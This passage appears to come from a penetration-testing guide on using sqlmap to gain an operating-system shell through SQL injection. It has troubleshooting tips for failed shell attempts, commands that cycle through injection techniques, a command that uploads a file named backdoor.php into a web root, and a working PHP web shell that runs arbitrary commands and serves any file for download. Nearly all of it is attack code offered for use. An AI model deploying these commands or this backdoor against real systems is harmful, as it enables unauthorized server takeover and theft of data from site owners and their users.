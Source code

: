 #### Troubleshooting OS Shell Issues

**Common Problems & Solutions:**

**1. No Output from UNION Technique:**
```bash
# Problem: UNION technique fails to provide output
os-shell> ls -la
No output

# Solution: Use Error-based technique
sqlmap -u "URL" --os-shell --technique=E
```

**2. Permission Denied Errors:**
```bash
# Problem: Cannot write to /var/www/
[WARNING] potential permission problems detected ('Permission denied')
[WARNING] unable to upload the file stager on '/var/www/'

# Solution: Try alternative directories
[INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[INFO] the file stager has been successfully uploaded on '/var/www/html/'
```

**3. Web Root Discovery:**
```bash
# Automatic web root discovery
sqlmap -u "URL" --os-shell --batch  # Uses common locations

# Manual web root specification
sqlmap -u "URL" --os-shell
# Choose option [2] custom location(s)
# Enter: /var/www/html, /usr/local/apache2/htdocs, etc.
```

#### Advanced OS Exploitation Techniques

**Multiple Technique Testing:**
```bash
# Try different SQLi techniques for OS shell
sqlmap -u "URL" --os-shell --technique=U    # UNION-based
sqlmap -u "URL" --os-shell --technique=E    # Error-based  
sqlmap -u "URL" --os-shell --technique=B    # Boolean-based (slower)
sqlmap -u "URL" --os-shell --technique=T    # Time-based (very slow)
```

**Custom Shell Upload:**
```bash
# Upload custom backdoor
sqlmap -u "URL" --file-write "custom_shell.php" --file-dest "/var/www/html/backdoor.php"

# Multi-functional shell
cat > advanced_shell.php << 'EOF'
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
if(isset($_GET['download'])) {
    $file = $_GET['download'];
    if(file_exists($file)) {
        header('Content-Type: application/octet-stream');
        header('Content-Disposition: attachment; filename="'.basename($file).'"');
        readfile($file);
    }
}
?>
EOF
```